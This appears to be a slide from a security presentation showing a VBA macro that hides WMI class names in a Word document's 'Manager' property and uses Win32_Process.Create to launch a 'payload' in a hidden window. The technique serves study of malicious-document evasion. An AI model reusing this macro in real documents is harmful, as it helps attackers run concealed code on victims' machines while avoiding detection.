

# WMI Win32_ProcessStartup and Win32_Process

' winmgmts:\\\root\cimv2Win32_ProcessStartup\root\cimv2:Win32_Process
var1 = ActiveDocument.BuiltInDocumentProperties.Item("Manager")
var2 = Left(var1, 11)
var4 = Mid(var1, 12, 11)
var5 = Mid(var1, 23, 20)
var6 = Right(var1, 25)
Const HIDDEN_WINDOW = 0
strComputer = "."
Set objWMIService = GetObject(var2 & strComputer & var4)
Set objStartup = objWMIService.Get(var5)
Set objConfig = objStartup.SpawnInstance_
objConfig.ShowWindow = HIDDEN_WINDOW
Set objProcess = GetObject(var2 & strComputer & var6)
objProcess.Create payload, Null, objConfig, intProcessID